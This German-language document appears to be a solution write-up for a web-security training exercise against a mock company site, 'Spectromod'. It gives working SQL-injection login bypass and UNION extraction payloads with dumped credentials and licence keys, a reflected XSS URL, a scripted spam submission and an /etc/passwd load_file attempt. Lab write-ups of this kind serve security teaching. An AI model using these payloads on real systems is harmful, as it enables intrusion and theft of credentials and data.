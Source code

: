 
== Übung Spectromod

=== URL Manipulation
Der noch nicht veröffentlichte Geschäftsbericht ist unter der URL verfügbar.

    https://www.spectromod.ch/schulung/spectromod/downloads/geschaeftsbericht-2011.doc

=== Lizenzschlüssel:

* Login via SQL-Injection mit Benutername und Passwort: test' or '1' = '1
* Der Loginstate wird auf 1 gesetzt. Danach mit admin anmelden.
* Passwort mit Brute-Force und SQL-Injection via Python-Script suchen. Resultat: admin/ADMIN

    Suprex GmbH: ACX21-KVA12-QXZ22-BER98
    Kantons Labor Zuerich: HAK00-VIR39-CVB12-LKE93
    Radix AG: FER11-LOB91-QIP76-LIP18
    Labor Analysen AG: KAP78-MIA98-AVK56-SIA18


=== Kundendaten

* Auslesen via SQL-Injection im Download-Bereich
.  SQL Injection:

   a' OR '1%' = '1

. Informationen über SQL Schema via UNION

   ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spectromod User und Passwörter auslesen

   ' UNION SELECT concat(user, ' - ', password), '', 1 from spectromod.customer WHERE  '1%' = '1

    admin - ADMIN
    Suprex - e2fc714c47
    KtLaborZH - loewe
    Radix - winter2012
    LabAn - LabAn2011
    andrea.leuenberger - rOPaL10
    peter.sturm - ORox311%KV

=== Baupläne

* Auslesen via SQL-Injection im Download Bereich

. Alle Tabellen auslesen

    ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spalten der Tablle document auslesen

    ' UNION SELECT COLUMN_NAME, '', 1 from information_schema.columns where table_name = 'document' and '1%' = '1

     id
     title
     filename
     type

. Alle Dokumente auslesen

    a' UNION SELECT concat(id, ' - ', title, ' - ', filename, ' - ', type), '', 1 from document where '1%' = '1

    1 - Preisliste - preisliste-2010.xls - public
    2 - Geschaeftsbericht 2009 - geschaeftsbericht-2009.pdf - public
    3 - Organigramm - organigramm.pdf - public
    4 - IT-Netzwerk - netzwerk_001.pdf - internal
    6 - Platine Spectromod MASS 50 DX - platine.pdf - secret
    7 - Lohnliste - loehne.xls - internal
    8 - Geschaeftsbericht 2010 - geschaeftsbericht-2010.doc - public
    9 - Referenzen - referenzen.doc - public
    10 - Backup Notiz - datenbank-backup.pdf - internal
    11 - Brief Kundenplattform - welcome.doc - internal
    12 - Geschaeftsbericht2013 - geschaeftsbericht-2013.doc - intern

Platine ist unter https://www.spectromod.ch/schulung/spectromod/downloads/platine.pdf
Netzwerk ist unter https://www.spectromod.ch/schulung/spectromod/downloads/netzwerk_001.pdf

=== E-Mail

* Auslesen aller Kunden via SQL-Injection im Download Bereich

. Alle Tabellen auslesen

    ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spalten der Tablle document auslesen

    ' UNION SELECT COLUMN_NAME, '', 1 from information_schema.columns where table_name = 'customer' and '1%' = '1

    id
    customer
    user
    email
    password
    key

. Admin E-Mail auslesen

   ' UNION SELECT concat(email, ' - ', password), '', 1 from spectromod.customer WHERE user = 'admin' AND '1%' = '1

    admin@spectromod.ch - ADMIN

. Geschäftsführer (sichtbar im Organigram) E-Mail auslesen

   ' UNION SELECT concat(user, ' - ', email, ' - ', password), '', 1 from spectromod.customer WHERE '1%' = '1

    peter.sturm - peter.sturm@spectromod.ch - ORox311%KV

=== Root Passwort

* In der Datei https://www.spectromod.ch/schulung/spectromod/downloads/datenbank-backup.pdf findet man das Root Passwort

    root / spectromod

. Versuch via MySQL-Client eine Verbindung aufzubauen funktioniert nicht. Ein Portscanner (http://www.dnstools.ch/port-scanner.html oder
https://pentest-tools.com/network-vulnerability-scanning/tcp-port-scanner-online-nmap) zeigt das der Standard MySQL-Port (3306) geschlossen ist.
Offen ist scheinbar nur der Port 443/tcp für https.


=== XSS

     https://www.spectromod.ch/schulung/spectromod/content/index.php?id=1&image=%22%3E%3C/img%3E%3Cscript%3Ealert(%27hello%27);%3C/script%3E%3Cimg%20src=%22


=== Spam

* Post-Request mit Parameter name, email, subject, message via Python Script auf https://www.spectromod.ch/schulung/spectromod/kontakt/do-mail.php

== Weitere Versuche

*  Auslesen via SQL-Injection im Download Bereich


. MySQL User auslesen

  ' UNION SELECT user(), '', 1 from DUAL WHERE '1%' = '1

  myspectromod@localhost

. Versuch alle MySQL-User auszulesen und an Root Rechte zu kommen

    ' UNION SELECT CONCAT(QUOTE(user),'@',QUOTE(host)), '', 1 from mysql.user WHERE  '1%' = '1

    Funktioniert nicht. Zu wenig Privilegien

. MySQL Privilegien des Benutzers myspectromod auslesen

  ' UNION SELECT concat(grantee, ' - ',  privilege_type, ' - ', is_grantable), '', 1 FROM information_schema.user_privileges WHERE '1%' = '1

    USAGE (no privileges).

. MySQL Version auslesen

    ' UNION SELECT @@version, '', 1 from DUAL WHERE '1%' = '1

    5.5.49-MariaDB-1ubuntu0.14.04.1

. Check ob die Version irgenwelche Sicherheitslücken hat

    https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-3477

    Version 5.5.49 hat eine Sicherheitslücke mit CVSS Score 7.2 die mit 5.5.50 repariert wurde.
    MariaDB 5.5.50 Erscheinungsdatum ist 2016-06-17, MariaDB 5.5.49 am 2016-04-22.

    Im Git im Branch 5.5 Commits zwischen diesem Zeitraum überprüfen.
    https://github.com/MariaDB/server/commits/5.5

    Kandidat:
    https://github.com/MariaDB/server/commit/9d72fb4af0d87f6a69a3ccb9202b4029acf2bd56

. (Verzweifelter) Versuch das Passwd File zu laden.

    ' UNION SELECT load_file("/etc/passwd"), '', 1 from DUAL WHERE '1%' = '1


